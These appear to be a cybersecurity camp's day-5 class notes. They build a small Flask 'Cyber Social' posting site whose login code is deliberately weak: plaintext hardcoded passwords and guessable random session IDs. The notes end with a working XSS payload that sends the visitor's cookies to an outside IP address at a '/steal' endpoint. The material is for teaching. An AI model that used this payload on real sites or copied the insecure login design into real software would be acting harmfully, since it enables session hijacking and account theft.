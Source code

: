 ```yaml
---
title: Day 5 Notes
layout: note
---
```


# Day 5 Notes

Challenge for 10-11am:

- Save posts (using pickle) and load again when app loads so posts are retained
- Add better styling (HTML/CSS)
- Add a link on the all posts page to submit a new post
  - Or, put the new post form at the top of the all posts page
- Ask for a username
- Save the date/time with the post (like in my chat server)
  - http://cscamp.artifice.cc/daily-notes/day-2.html (second to last code example)

Python Flask:

- run with command: `python3 -m flask run -h 0.0.0.0 -p 10080`

Python Flask files:

- `python-flask/app.py`

```
from flask import Flask, render_template, request, make_response, redirect

app = Flask('Cyber Social')

# define routes:
# routes are how various addresses are handled by our app

posts = []

@app.route('/')
def home():
    return render_template('home.html')

@app.route('/newpost')
def newpost():
    return render_template('newpost.html')

@app.route('/newpost-submit', methods=["POST"])
def newpost_submit():
    title = request.form["title"]
    body = request.form["body"]
    posts.append(f"{title}: {body}")
    return make_response(redirect("/allposts"))

@app.route('/allposts')
def allposts():
    return render_template('allposts.html', posts=posts)
```

- `python-flask/templates/home.html`

```
<html>

<head>
<title>Cyber Social</title>
</head>

<body>

<h1>Welcome to Cyber Social!</h1>

<h2>The most social site on the web!</h2>

<a href="/newpost">Make new post</a>

<br/>

<a href="/allposts">See all posts</a>


</body>

</html>
```

- `python-flask/templates/newpost.html`

```
<html>
<head>
<title>Cyber Social - New Post</title>
</head>

<body>

<h1>New Post</h1>

<form method="post" action="/newpost-submit">

Title: <input type="text" name="title" size="30"/>
<br/>
<textarea rows="5" name="body" placeholder="Type your post here.">
</textarea>
<br/>
<input type="submit" value="Add Post"/>

</body>
</html>
```

- `python-flask/templates/allposts.html`

```
<html>
<head>
<title>Cyber Social - All Posts</title>
</head>

<body>

<h1>All Posts</h1>

<ul>
{% for p in posts %}
<li>{{ p }}</li>
{% endfor %}
</ul>

<a href="/">Go Home</a>

</body>
</html>
```

---

Python Flask logins

- `python-flask/app.py`:

```
from flask import Flask, render_template, request, make_response, redirect
import random

app = Flask('Cyber Social')

# define routes:
# routes are how various addresses are handled by our app

posts = []
loggedin = {}

@app.route('/')
def home():
    return render_template('home.html')

@app.route('/newpost')
def newpost():
    return render_template('newpost.html')

@app.route('/newpost-submit', methods=["POST"])
def newpost_submit():
    title = request.form["title"]
    body = request.form["body"]
    sessionid = request.cookies.get("sessionid")
    if sessionid in loggedin:
        user = loggedin[sessionid]
    else:
        user = "anonymous"
    posts.append(f"{user} wrote '{title}': {body}")
    return make_response(redirect("/allposts"))

@app.route('/allposts')
def allposts():
    return render_template('allposts.html', posts=posts)


users = {'josh': '123456', 'alice': 'abc123'}

@app.route('/login')
def login():
    return render_template('login.html')

@app.route('/login-submit', methods=["POST"])
def login_submit():
    user = request.form['user']
    password = request.form['password']
    if user in users and users[user] == password:
        response = make_response(redirect('/'))
        sessionid = str(random.randint(0,1000000))
        loggedin[sessionid] = user
        response.set_cookie('sessionid', sessionid)
        return response
    else:
        return "Invalid username or password"
```

- `python-flask/templates/login.html`:

```
<html>
<head>
<title>Cyber Social - Login</title>
</head>

<body>
<h1>Login</h1>

<form method="post" action="/login-submit">
User: <input type="text" name="user" size="20"/>
<br/>
Password: <input type="password" name="password" size="20"/>
<br/>
<input type="submit" value="Log in"/>
</form>

</body>
</html>
```

---

Cross-site scripting (XSS) payload:

```
<script>
var oReq = new XMLHttpRequest();
oReq.open("POST", "http://18.234.145.155:10081/steal");
oReq.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
oReq.send("data="+document.cookie);
</script>
```

